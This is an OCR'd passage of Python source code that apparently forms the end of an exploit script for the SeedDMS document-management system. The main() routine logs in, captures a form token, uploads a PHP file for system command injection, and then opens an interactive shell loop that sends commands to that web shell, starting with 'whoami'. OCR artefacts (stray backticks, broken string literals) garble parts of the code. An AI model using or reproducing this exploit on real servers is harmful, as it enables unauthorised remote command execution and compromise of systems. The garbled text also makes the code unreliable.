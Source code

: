         if(rsl.status_code == 200):
            print("[*] PHP Script Exist!")
            print("[*] Injecting some shell command.")

            #1st test injecting whoami command
            data = {
                'cmd' : 'whoami'
            }

            rsl = sessionObj.post(url, data=data)

            if(rsl.text != ""):
                print("[*] There's response from the PHP script!")
                print('[*] System Current User: ' + rsl.text.replace("<pre>", "").replace("

", ""))

`           print("[*] Spawning Shell. type .exit to exit the shell", end="\n\n")`
`           #start shell iteration`
`           while(True):`
`               cmd = input("[Seeddms Shell]$ ")`

`               if(cmd == ".exit"):`
`                   print("[*] Exiting shell.")`
`                   sys.exit(0)`

`               data = {`
`                   'cmd' : cmd`
`               }`

`               rsl = sessionObj.post(url, data=data)`
`               print(rsl.text.replace("`

    ", "").replace("

", ""))

`       else:`
`           print("[!] No response from PHP script. Something went wrong.")`
`           sys.exit(0)`

`   else:`
`       print("[!] PHP Script Not Found!!")`
`       print(rsl.status_code)`
`       sys.exit(0)`

def main():

`   username, password, url = sysArgument()`

`   sessionObj = requests.Session()    `

`   #getting session token from logging in    `
`   sessionObj = login(sessionObj, username, password, url)`

`   #capturing form token for adding document`
`   sessionObj, formToken = formTokenCapturing(sessionObj, url)`

`   #uploading php code for system command injection`
`   sessionObj, docName = uploadingPHP(sessionObj, url, formToken)`

`   #getting document id`
`   sessionObj, docID = getDocID(sessionObj, url, docName)`
`   `
`   #spawning shell to exec system Command`
`   shell(sessionObj, url, docID)`

if __name__ == "__main__":

`   main()`

</pre>
